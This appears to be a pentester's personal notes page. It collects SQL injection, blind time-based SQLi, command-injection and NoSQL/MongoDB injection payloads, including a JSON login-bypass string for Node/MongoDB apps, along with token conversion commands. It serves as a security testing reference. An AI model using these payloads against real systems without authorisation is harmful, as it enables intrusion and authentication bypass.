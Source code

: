 ```yaml
---
title: Pentest Notes
summary: Collection of pentest tools and techniques derived from various sources.
date: 2020-06-14
lastmod: 2020-06-14

reading_time: false  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?

# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


> Collection of things i wish to reference during pentests. None of the data here is mine. Everything is dervied from various sources over the internet. I have tried to reference as much as possible. Please comment below if you would like your work to be referenced.

## Burp Suite Extensions
My complete list of Burpsuite extensions

![](burp_extensions_14_june_2020.png)

## Token Conversions

Token to Hex
```bash
echo "token" | base64 -d | xxd -p –u
```
Hex to Token
```bash
echo "nekot" | xxd -r -p | base64
```

## Adding Null Bytes
```plaintext
%00 ,\0, \000, \x00, \z, or \u0000
```
In caret notation the null character is ^@

## SQL Injection

```plaintext
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/'/
/?q=1/!1111'/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='

```

Blind SQL Injection Payloads

```plaintext
MySQL - ‘+SELECT SLEEP(5);+’
MSSQL -  ‘+WAITFOR DELAY ’0:0:5′+’
```

## Command Injection

```plaintext
;echo%201111111
echo%201111111
response.write%20111111
;response.write%20111111
```

## NoSQL Injections

```plaintext
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1 
```

If a NodeJS application is there with MongoDB where credentials are traveling like below
```plaintext
{“username”:”admin”,”password”:”password”}
```

Always try
```plaintext
{“username”:[0],”password”:true}
```
[https://www.jishuwen.com/d/204G](https://www.jishuwen.com/d/204G) 
